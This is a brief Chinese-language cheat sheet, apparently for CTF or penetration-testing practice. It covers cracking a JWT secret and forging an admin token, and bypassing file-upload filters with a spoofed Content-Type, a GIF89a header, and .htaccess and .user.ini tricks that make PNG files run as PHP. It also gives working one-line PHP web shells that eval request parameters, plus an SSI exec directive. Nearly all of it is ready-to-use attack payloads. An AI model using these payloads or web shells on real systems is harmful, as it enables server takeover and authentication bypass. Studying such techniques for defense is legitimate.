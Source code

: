 ## JWT

1. [JWT Decode](https://jwt.io/)
2. 使用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)爆破密钥
3. 伪造admin的JWT

## File Upload

### Content-Type

Content-Type: image/jpeg

### 文件头

GIF文件头 GIF89a

文件内容

### 后缀限制

#### .htaccess

将png后缀解析为php

```htaccess
<FilesMatch "png">
SetHandler application/x-httpd-php
</FilesMatch>
```

#### .user.ini

传一个.user.ini 文件，当我们对目录中的任何php文件进行访问时，都会调用.user.ini中指的文件以php的形式进行读取

```ini
auto_prepend_file=1.png
```

#### php

```php
<?= @eval($_POST["pwd"]);?>
```

#### phtml

```php
<script language="php">eval($_REQUEST[123])</script>
```

#### Shtml

```php
<!--#exec cmd="ls"-->
```
